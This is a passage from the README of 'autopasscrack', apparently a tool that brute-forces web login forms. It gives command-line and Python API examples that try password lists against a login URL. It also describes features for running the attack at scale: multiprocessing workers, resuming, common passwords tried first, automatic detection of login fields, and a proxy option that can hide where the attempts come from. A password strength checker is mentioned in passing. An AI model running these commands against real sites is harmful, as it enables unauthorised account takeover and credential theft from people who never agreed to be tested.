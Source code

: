 #### 14. **Log progress and results to file**
```bash
autopasscrack https://example.com/login --username myuser --passwords passwords.txt --logfile result.log
```
- Progress and results will be written to the specified log file.

#### 15. **Custom success message**
```bash
autopasscrack https://example.com/login --username myuser --passwords passwords.txt --success-message "Welcome"
```
- If the page contains the specified message after login, it will be treated as a successful login.

---

## Advanced Features and Improvements
- **Resume enhancement**: Resume now supports full auto mode, accurately restoring username/password combination and index.
- **Multiprocessing terminate**: In multi-worker mode, if any worker finds a valid credential, all other workers are terminated immediately for efficiency.
- **Common-passwords priority**: If a common-passwords file is specified, those passwords are always tried first.
- **Custom field selector**: Use `--username-selector` and `--password-selector` to specify login fields if auto-detection fails.
- **Proxy support**: Use `--proxy` to specify an HTTP/HTTPS proxy server.
- **Dry-run mode**: Only test one username/password pair for debugging.
- **Log file**: Progress and results can be written to a log file with `--logfile`.
- **Custom success message**: Use `--success-message` to specify a string that indicates a successful login on the page.

### Python API Example

```python
from autopasscrack.auto_brute import brute_force

brute_force(
    url="https://example.com/login",
    username="myuser",
    password_list=["123456", "password", "letmein"],
    delay=0.1  # Set delay between attempts to 0.1 seconds
)
```

## Advanced Login Field Detection
- The tool now detects all possible username/email fields based on type, name, id, placeholder, and aria-label attributes (keywords: user, email, login, account), and pairs them with all password fields. This increases compatibility with various login forms.

## Password Strength Test Tool
- A simple password strength checker is available at `docs/index.html`. Open it in your browser to test password strength (length, upper/lowercase, digit, symbol).
